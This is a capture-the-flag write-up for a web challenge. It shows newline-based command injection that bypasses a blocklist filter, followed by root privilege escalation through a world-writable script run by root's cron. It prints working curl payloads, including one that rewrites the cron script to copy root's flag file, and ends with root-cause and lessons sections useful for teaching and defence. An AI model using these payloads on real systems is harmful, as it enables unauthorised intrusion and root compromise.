

# Challenge Name: Healthy Hijack - 1
**Category:** Infra / OT
**Points:** 10
**Difficulty:** Easy

### Description
The application allows execution of limited network commands with strict filtering in place. Or so it seems... Explore the system, identify weaknesses, and escalate your privileges to root.

Target: Safe Command Runner (`https://kicyber-3e7a29043a67-healthyhijack-0-0.chals.io`)

### Approach
1. The web app ("Safe Command Runner") exposed a form framed as a network-debugging tool (e.g. for running `ping`). Viewed the raw page source to confirm the real request format:
   ```html
   <form method="POST" action="/run">
       <textarea name="cmd" placeholder="Enter command here."></textarea>
       <button type="submit">Run</button>
   </form>
   ```
   Key detail: the form submits as `application/x-www-form-urlencoded` with a field named `cmd` — not JSON, and not `command` as might be assumed from the UI wording.
2. Tested the backend's command filtering. It blocked common shell metacharacters used for chaining commands: `;`, `|`, `&&`, and parenthesis-based substitution `$()`/backticks (confirmed via a syntax error when testing substitution).
3. However, the filter did **not** sanitize newline characters inside the `cmd` field. Since the backend passes the raw string to a shell (`/bin/sh`), a literal `\n` acts as a statement separator exactly like `;` does — but wasn't on the filter's blocklist.

### Solution
**Initial RCE via newline injection:**
```bash
curl -s -X POST --data-urlencode $'cmd=ping -c 1 127.0.0.1\nid' \
  https://kicyber-3e7a29043a67-healthyhijack-0-0.chals.io/run
```
Confirmed code execution as a low-privilege user:
```
uid=1000(appuser) gid=1000(appuser) groups=1000(appuser)
```

**Privilege escalation — cron enumeration:**
With shell access, read the crontab (`cat /etc/crontab`) and found:
```
* * * * * root /opt/healthcheck.sh
* * * * * root sleep 10 && /opt/healthcheck.sh
* * * * * root sleep 20 && /opt/healthcheck.sh
...
* * * * * root find /tmp -perm /4000 -delete
```
Two key findings:
- `/opt/healthcheck.sh` runs as **root**, multiple times per minute (staggered via `sleep`).
- A separate cron job sweeps `/tmp` every minute, deleting any SUID-bit files — a deliberate blocker against the classic "drop a SUID shell in `/tmp`" privesc technique, clearly pushing toward the intended solution instead.

Checked permissions on the script:
```
-rwxrwxrwx 1 root root 58 May 5 15:24 /opt/healthcheck.sh
```
World-writable, owned by root, executed by root via cron — a textbook cron-script privilege escalation.

**Exploitation:**
Overwrote the script (via the same newline-injection RCE) to dump the root-only flag file to a world-readable location:
```bash
curl -s -X POST --data-urlencode $'cmd=ping -c 1 127.0.0.1\necho \'#!/bin/sh\' > /opt/healthcheck.sh\necho \'cat /root/root.txt > /tmp/out.txt\' >> /opt/healthcheck.sh\necho \'chmod 644 /tmp/out.txt\' >> /opt/healthcheck.sh' \
  https://kicyber-3e7a29043a67-healthyhijack-0-0.chals.io/run
```
Waited ~90 seconds for the next cron tick, then retrieved the output:
```bash
curl -s -X POST --data-urlencode $'cmd=ping -c 1 127.0.0.1\ncat /tmp/out.txt' \
  https://kicyber-3e7a29043a67-healthyhijack-0-0.chals.io/run
```
This returned the contents of `/root/root.txt`, containing the flag.

### Flag
`[REDACTED]`

> **Note:** The extracted flag was not accepted by the CTF platform despite multiple submission attempts. The command injection and file read were confirmed working — likely a platform-side issue or flag rotation after the event window.

### Proof


### Root Cause
- **Command injection via inadequate blocklist filtering** — the backend blocked `;`, `|`, `&&`, and `$()`/backticks, but missed that a literal newline character is an equally valid shell statement separator.
- **Insecure cron configuration** — a root-executed script (`/opt/healthcheck.sh`) was left world-writable (`777`), letting any local or web-shell user silently rewrite it and have root execute arbitrary code on the next cron tick.

### What I learned
- **Blocklist-based input filtering is fundamentally fragile.** The backend correctly blocked the "obvious" shell metacharacters but missed newline (`\n`) as a statement separator — a allowlist approach (only permitting a fixed set of safe characters/arguments) would have prevented this entirely, whereas any blocklist is only as good as the list of characters its author thought to include.
- **A SUID-sweep cron job is not a substitute for fixing the actual vulnerability.** The challenge's `find /tmp -perm /4000 -delete` job specifically blocked the most common privesc shortcut (dropping a SUID shell), which was a strong signal that a different, intended technique existed — in this case, a world-writable script executed by a privileged cron job.
- **Always check `cat /etc/crontab` and `ls -la` on anything root-executed** immediately after gaining any shell, regardless of how it was obtained — a world-writable file that's executed on a timer by a more-privileged user is one of the most common and reliable Linux privilege escalation patterns.
- **Form field names matter.** Relying on the UI's wording ("Enter command here") instead of checking the actual raw HTML/request format (`cmd`, not `command`) would have cost significant time; always verify the exact parameter name and content-type from page source or a captured request before scripting an exploit.
